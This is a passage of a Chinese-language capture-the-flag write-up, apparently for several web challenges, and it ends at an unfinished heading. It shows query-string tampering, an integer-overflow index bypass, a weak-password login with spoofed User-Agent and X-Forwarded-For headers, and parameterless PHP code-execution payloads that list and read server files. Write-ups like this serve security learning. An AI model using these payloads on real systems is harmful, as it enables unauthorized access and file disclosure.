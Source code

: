 ------

RC4加密，动调出flag。

------



## web

------

### [easy easy easy] realsignin

------

截断抓包改成大于100万

?popularity=1000001

------



### [easy easy]Array!

------

数组整型溢出绕过赋值，32位最大是2147483647，64位最大是9223372036854775807

?index=9223372036854775807

------



### [easy]Login

------

弱口令登陆admin admin123

请求头中添加user-agent:Aurora，X-Forwarded-For:127.0.0.1

------



### [middle] ezRCE

------

无参数rce，payload：?passwd&var=print_r(scandir(pos(localeconv())));

发现当前目录的flag ?passwd&var=show_source(array_rand(array_flip(scandir(pos(localeconv())))));

------



### [middle]Admin Panel I
